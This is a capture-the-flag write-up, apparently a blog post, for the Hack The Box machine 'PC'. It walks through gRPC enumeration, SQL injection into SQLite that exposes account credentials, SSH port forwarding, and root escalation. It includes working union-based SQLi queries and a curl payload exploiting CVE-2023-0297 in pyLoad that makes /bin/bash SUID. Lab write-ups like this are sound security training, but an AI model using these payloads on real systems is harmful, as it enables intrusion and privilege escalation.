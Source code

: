 ```yaml
---
layout: post
title:  "Hack The Box: PC Write-Up"
category : writeup
tags :  gRpc  pyload sshportforwarding burpsuite CVE-2023-0297
---
```


![Capture d’écran du 2023-10-08 13-07-54](/assets/blog/htb-pc/image.png)


## Description
PC starts with only SSH and TCP port 50051 open. I’ll poke at 50051 until I can figure out that it’s GRPC, and then use grpcurl to enumerate the service. I’ll find an SQL injection in the SQLite database and get some creds that I can use over SSH. To escalate, I’ll find an instance of pyLoad running as root and exploit a 2023 CVE to get execution. In Beyond Root, a video exploring the Python GRPC application to see how it works

#### Difficulty: `easy`

## Part 1: Enumeration & Foothold

```bash 
nmap -sTCV 10.10.11.214 -Pn -p- 1 ⚙

Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-24 00:05 CEST
Nmap scan report for 10.10.11.214
Host is up (0.037s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open unknown
```

we got the port 22(ssh) and 50051 opened, after a tremendous search on google and stackoverflow discoved its gRpc server turning on the port 50051.
searched google and found a tool to interact with the grpc server
- fullstorydev/grpcui: An interactive web UI for gRPC, along the lines of postman
- https://github.com/fullstorydev/grpcui 

```bash
~/go/bin/grpcui -plaintext 10.10.11.214:50051 1 

gRPC Web UI available at http://127.0.0.1:33799/
```

### Shell as Sau  

After running the app we got my web browser spawn this webpage where there was actually a service running.

![Pasted image 20230524002646](https://user-images.githubusercontent.com/62140530/273444164-f67591ab-bc47-4539-a0c4-667d69e95c63.png)


the Service is called ==Simple App==
from there we played around with the loginUser, immmediately tried `admin : admin`  logged in and got an id and token 


![Pasted image 20230524003259](https://user-images.githubusercontent.com/62140530/273444213-bfab7a78-9f17-4bf9-9eef-23eda2a8f07f.png)


now called the getinfo with the obtained id and token

![Pasted image 20230524003538](https://user-images.githubusercontent.com/62140530/273444240-ba81324e-a982-4cdb-ad35-27b5f7495e93.png)


got this response from the server. from there fired up burpsuite to replay these request to  find my way in.


![Pasted image 20230524004402](https://user-images.githubusercontent.com/62140530/273444282-a2a2601b-8955-4295-9ecd-9de4c30c475a.png)




![Pasted image 20230524004910](https://user-images.githubusercontent.com/62140530/273444302-9a369a15-e66a-42d2-8f91-eca8bcacafac.png)

after minutes and minutes of testing, came out that the "id" field is vulnerable to SQL injection 


![Pasted image 20230524005235](https://user-images.githubusercontent.com/62140530/273444330-b85b7128-70d0-46a6-97cd-00b1383804cb.png)


From there we needed to know what DBMS was used in this app so from PayloadAllthethings could test and found it is SQlite database running. now could manipulate the db with a series of sql queries.

```
823 union select sqlite_version() 
823 union SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' accounts
823 union SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts' 
CREATE TABLE "accounts" (username TEXT UNIQUE,password TEXT) 
823 union SELECT GROUP_CONCAT(username) from accounts 
admin,sau 
823 union SELECT GROUP_CONCAT(password) from accounts admin,HereIsYourPassWord1431
```

we got the user creds for user admin and sau with password admin and ==HereIsYourPassword1431== we use this to logging via ssh remember port 22 was opened


![Pasted image 20230524011154](https://user-images.githubusercontent.com/62140530/273444382-512436d6-4931-457d-9c68-1675e37985b3.png)

from there we get the user flag!

## Part 2: Privesc
### Shell as root
Using netstat we saw the different network services running on the machine 


![Pasted image 20230524012308](https://user-images.githubusercontent.com/62140530/273444405-e7128d67-468a-416d-83ca-fc3651f02ff9.png)


A service running on port 8000 on the machine so with SSH port forwarding could forward the port and connect to the service

```bash
ssh sau@10.10.11.214 -L 8000:localhost:8000 255 ⨯
sau@10.10.11.214's password:
Last login: Tue May 23 23:09:33 2023 from 10.10.14.67
sau@pc:~$
```

loading our brower on localhost:8000 we see ta login Page

![Pasted image 20230524012834](https://user-images.githubusercontent.com/62140530/273444454-4c72166f-2736-4f32-845a-23f32b16d277.png)

what we did is to actually search for vulnerabilities on this python module and found there's a CVE on this
CVE-2023-0297
- https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
  
Read this Poc and exploited the code to get a SUID bash then get the root flag
  
on our host run the command
![Pasted image 20230524013703](https://user-images.githubusercontent.com/62140530/273444493-dbca35a6-8aee-4dd0-bb83-3b9820e1dd3c.png)

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

![Pasted image 20230524014207](https://user-images.githubusercontent.com/62140530/273444512-0b87e51c-921a-498e-a180-2089a3c022b6.png)

![Pasted image 20230524014238](https://user-images.githubusercontent.com/62140530/273444541-7ba0e425-debe-4fd5-99d4-19166412cee2.png)





